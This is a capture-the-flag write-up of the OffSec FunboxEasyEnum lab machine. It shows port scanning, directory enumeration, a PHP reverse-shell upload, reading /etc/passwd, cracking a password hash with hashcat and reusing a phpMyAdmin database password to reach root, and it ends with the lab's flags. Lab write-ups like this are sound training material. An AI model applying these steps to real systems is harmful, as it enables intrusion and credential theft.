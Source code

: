 +++
title= "FunBoxEasyEnum by OffSec"
author= "v3l1d"
date= "2024-08-17"
+++

![](attachment/93250afd83aff038b608942734b9a111.jpg)

On a lazy Saturday morning, August 17, 2024, I embarked on a thrilling adventure in the world of Offensive Security, tackling the FunboxEasyEnum box on the Proving Grounds Play labs. This easy-level warmup machine was the perfect way to kick-start my journey, and I'm excited to share my experience with you.

### Port Scan

From port scan we got:

```
nmap -sC -sV -A -T4 -p- 192.168.235.132  -o scan 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 08:12 EDT
Nmap scan report for 192.168.235.132
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.77 seconds

```


### Enumeration 

Ran gobuster for directory enumeration:

![](attachment/8056c88ec9d48a1a73583502575dc7a7.png)

Only /phpmyadmin is accessible
![](attachment/2f1137ed6b04c6e54a3555ea3b74f8bb.png)

Analyzing burp request found that /phpmyadmin/js/whitelist.php and /js/messages.php are readable:
![](attachment/0bc35d213b3744dff25955d61e5c3dc7.png)

Nothing interesting here, re run enumeration with gobuster filtering for php file:

![](attachment/343af38a849df0558dcd46d857f37a9b.png)

Try mini.php:

![](attachment/4d78da8958ab8e7f54fd207350384649.png)
### Access

I uploaded a shell.php while listening on my kali:

![](attachment/c776a86f8411bde6fc6f25428c54b0c8.png)

```shell
lrwxrwxrwx   1 root root        31 Sep 18  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-117-generic
$ cd /var/www/ 
$ ls
html
local.txt
$ cat local.txt
896e80f60f8536d18c123448e656a7fc
$ 

```

Found first flag


```shell
www-data@funbox7:/etc$ cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
www-data@funbox7:/etc$ 

```

There's an hash in passwod

```shell
hashcat -m 500 oracle_hash
found:hiphop

```

Regain the revshell and from www-data run sudo su

``` shell
www-data@funbox7:/etc/phpmyadmin$ ls
ls
apache.conf    config.footer.inc.php  htpasswd.setup      phpmyadmin.service
conf.d         config.header.inc.php  lighttpd.conf
config-db.php  config.inc.php         phpmyadmin.desktop
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

```

Now we can log in phpmyadmin

![](attachment/4f8c1e0352e5cffceb06abbef4a03b5b.png)

```
sudo su karla:tgbzhnujm! 
```

Let's see what karla can run

``` shell
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL

```

Run sudo su with its password:
```
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# ls
root@funbox7:/home/karla# cd /root/root.txt
bash: cd: /root/root.txt: No such file or directory
root@funbox7:/home/karla# cd /root
root@funbox7:~# ls
proof.txt  root.flag
root@funbox7:~# 
```

![](attachment/23b8ace2c3ef681dca18c48344780c46.png)


# Flags

```
local:896e80f60f8536d18c123448e656a7fc
proof.txt: d0a70330bf49d3799b000cbe3d7ec011
```

